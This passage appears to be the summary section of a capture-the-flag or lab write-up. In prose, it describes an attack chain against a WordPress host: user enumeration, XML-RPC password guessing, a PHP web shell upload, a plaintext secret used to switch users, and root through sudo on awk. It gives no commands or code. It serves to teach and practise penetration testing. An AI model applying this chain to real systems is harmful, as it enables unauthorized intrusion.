2. **Vulnerability Discovery**: WordPress user disclosure, exposed XML RPC authentication surface, and publicly indexed profile hints created a practical route for precision credential attack.
3. **Exploitation**: A custom profile driven wordlist produced a valid login pair for `luisillo`, enabling authenticated abuse of administrative file functionality to deploy `shell.php` and gain remote code execution.
4. **Internal Enumeration**: Shell stabilization and local filesystem review revealed a plaintext secret in `/home/secret.txt`, which provided the credential needed to switch from `www-data` to `luisillo`.
5. **Privilege Escalation**: Misconfigured sudo rights permitting passwordless `/usr/bin/awk` execution allowed direct privilege transition to root through command execution inside awk.

